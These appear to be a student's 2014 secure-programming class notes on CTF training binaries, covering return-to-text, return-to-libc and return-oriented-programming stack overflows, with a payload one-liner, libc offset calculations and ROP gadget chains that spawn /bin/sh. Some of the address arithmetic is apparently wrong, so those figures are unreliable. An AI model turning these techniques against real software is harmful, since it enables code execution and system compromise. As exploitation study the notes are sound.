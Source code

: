 ====================
 Secure Programming
====================

:date: 2014-11-04 18:55
:tags: secprog, ctf, return-oriented-programming
:category: note
:slug: secure-programming-20141104
:authors: Zespre Schmidt
:about_author: Bug generator
:email: starbops@gmail.com
:summary: 2014/11/04 Secure Programming Class Note

foo_4
=====

Training for "return to text" attack.

- binsh: 0x0804a030, but actual address is at 0x08048640.
- system: 0x080483e0

- ``print 'a'*24 + '\xe0\x83\x04\x08' + 'aaaa' + '\x40\x86\x04\x08'``


foo_5
=====

Training for "return to libc" attack.

Notice: libc.so is provided

- ``objdump -d libc.so``
    - 00019970 <__libc_start_main>:
    - 0003fc40 <__libc_system>:
        - offset: 262d0

Example:
Function: libc_start_main's address is :  0xf75f5970
Function: libc_system's address is : 0xf75f5970 + 0x262d0 = 0xf761bc40

- ``objdump -R foo_5``
    - 0804a01c R_386_JUMP_SLOT   __libc_start_main
- 0804a02c <binsh>:
    - actual address: 08048620

foo_6
=====

Training for "return-oriented programming" attack.

- int 0x80
- eax: call what
- ebx, ecx: arguments
- remember the number of pops, smash the stack

Gadget 1
--------

- first gadget: 0x080594ac
- reset eax to 0 by XOR itself
- value for ``pop ebx``: 0x080be568 (/bin/sh)
- return address of first gadget: 0x0805cc5c

.. code-block:: nasm

    80594ac:       31 c0                   xor    eax,eax
    80594ae:       5b                      pop    ebx
    80594af:       c3                      ret

Gadget 2
--------

- second gadget: 0x0805cc5c
- garbage value for ``pop edi``: aaaa
- return address of second gadget: 0x0805cc5c
- repeat 11 times to make eax = 0x0000000b
- last return address of second gadget: 0x0806f0e0

.. code-block:: nasm

    805cc5c:       40                      inc    eax
    805cc5d:       5f                      pop    edi
    805cc5e:       c3                      ret

Gadget 3
--------

third gadget: 0x0806f0e0

.. code-block:: nasm

    806f0e0:       cd 80                   int    0x80
    806f0e2:       c3                      ret

Failed Gadget
-------------

Program received signal SIGSEGV in 0x080db8ce. Still don't know why :(

.. code-block:: nasm

    80db8cd:       40                      inc    eax
    80db8ce:       02 af 0a 0e 0c 41       add    ch,BYTE PTR [edi+0x410c0e0a]
    80db8d4:       c3                      ret

Cannot use ``pop eax`` because 0x0000000b contains 00 which is null. It will
terminate the input string unexpectedly.

.. code-block:: nasm

    80e205d:  58                      pop    eax
    80e205e:  c3                      ret

